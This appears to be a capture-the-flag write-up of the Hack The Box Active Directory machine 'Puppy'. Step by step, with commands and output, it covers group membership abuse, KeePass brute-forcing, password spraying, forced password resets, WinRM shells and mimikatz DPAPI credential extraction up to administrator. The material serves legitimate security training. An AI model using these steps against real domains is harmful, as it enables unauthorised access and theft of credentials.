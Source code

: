 ```yaml
---
layout: post
title: "HTB AD Medium: Puppy"
description: "Puppy is a Medium rated AD machine on HTB."
categories: [CTF,HTB]
tags: [AD,Medium]
author: g
---
```


## Nmap Scan
```bash
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
111/tcp   open  rpcbind          syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
2049/tcp  open  nfs              syn-ack ttl 127
3260/tcp  open  iscsi            syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49669/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49691/tcp open  unknown          syn-ack ttl 127
59297/tcp open  unknown          syn-ack ttl 127
59333/tcp open  unknown          syn-ack ttl 127
```

### Assumed Breach
```bash
levi.james:KingofAkron2025!
```

### Enumerate SMB (Port 445)

Run Python ingestor for BloodHound:
```bash
bloodhound-ce-python -c all -d puppy.htb -u levi.james -p 'KingofAkron2025!' --zip -ns 10.10.11.70
```

Checking outbound control:
![Pasted image 20250828205624.png](/images/Pasted image 20250828205624.png){: .normal }


Add the levi.james user to the developers group:
```bash
net rpc group addmem "developers" "levi.james" -U "puppy.htb"/"levi.james"%'KingofAkron2025!' -S "10.10.11.70"
```

Checking SMB shares:
```bash
nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --shares
DEV             READ            DEV-SHARE for PUPPY-DEVS
```

Connect to the share:
```bash
smbclient \\\\10.10.11.70\\DEV -U PUPPY.HTB/levi.james
# Pass: KingofAkron2025!
```

In this share, we find the following:
```bash
KeePassXC-2.7.9-Win64.msi       A 34394112  Sun Mar 23 08:09:12 2025
Projects                        D        0  Sat Mar  8 17:53:36 2025
recovery.kdbx                   A     2677  Wed Mar 12 03:25:46 2025
```

Get the files:
```bash
smb: \> get recovery.kdbx
```

Try to crack it:
```bash
keepass2john recovery.kdbx > hash
! recovery.kdbx : File version '40000' is currently not supported!
```

Googling an alternative to crack keepass 4 we find the following PoC: [Link](https://github.com/r3nt0n/keepass4brute/blob/master/keepass4brute.sh).
```bash
./keepass4brute.sh /home/kali/recovery.kdbx /usr/share/wordlists/rockyou.txt 
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 48 - Estimated time remaining: 29 weeks, 4 days
[+] Current attempt: liverpool

[*] Password found: liverpool
```

Credentials in the keepass file:
```bash
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

Get usernames:
```bash
nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --users | awk '{print $5}'

Administrator
Guest
krbtgt
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```

Spraying the users & passwords reveals:
```bash
nxc smb 10.10.11.70 -u users -p pass --continue-on-success
[+] PUPPY.HTB\ant.edwards:Antman2025! 
```

Checking the outbound privileges of this user:
![Pasted image 20250828212015.png](/images/Pasted image 20250828212015.png){: .normal }


We can enable the account over LDAP: [Link](https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad).
```bash
# File
dn: CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512

# Query
ldapmodify -x -H ldap://10.10.11.70 -D "ant.edwards@puppy.htb" -W -f enable_user.ldif
Enter LDAP Password: 
modifying entry "CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB"
```

Now that the account is enabled again, we can force change the password for this user:
```bash
net rpc password "adam.silver" "Password@123" -U "puppy.htb"/"ant.edwards"%'Antman2025!' -S "10.10.11.70"
```

Verify the password change:
```bash
nxc smb 10.10.11.70 -u 'adam.silver' -p 'Password@123'
```


### Foothold
We can winrm as this user:
```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p 'Password@123'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami
puppy\adam.silver
```

Flag: `61998004471f9d3d9929720b056f24a7`
```bash
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> type user.txt
61998004471f9d3d9929720b056f24a7
```


### Lateral movement
Found a backup folder with a file:
```bash
cd C:\Backups
download site-backup-2024-12-30.zip
```

In here, the xml.bak file is found with creds: `steph.cooper:ChefSteph2025!`.
```xml
cat nms-auth-config.xml.bak 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

Winrm as this user:
```bash
evil-winrm -i 10.10.11.70 -u steph.cooper -p 'ChefSteph2025!'
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\steph.cooper\Documents> whoami
puppy\steph.cooper
```


### Privilege Escalation
Checking DPAPI:
```bash
cd C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
Get-Childitem . -Force

.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" "exit"

d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

Get the credential blob:
```bash
cd C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
Get-ChildItem . -Force
C8D69EBE9A43E9DEBF6B5FBD48B521B9

.\mimikatz.exe 'dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /unprotect /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84' 'exit'

UserName       : steph.cooper_adm
CredentialBlob : FivethChipOnItsWay2025!
```

Connect using this account:
```bash
evil-winrm -i 10.10.11.70 -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'
```

Flag: `2d31f7395a58e30056327e7d101b8d00`
```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
2d31f7395a58e30056327e7d101b8d00
```


### PWNED!!!
![Pasted image 20250828223406.png](/images/Pasted image 20250828223406.png){: .normal }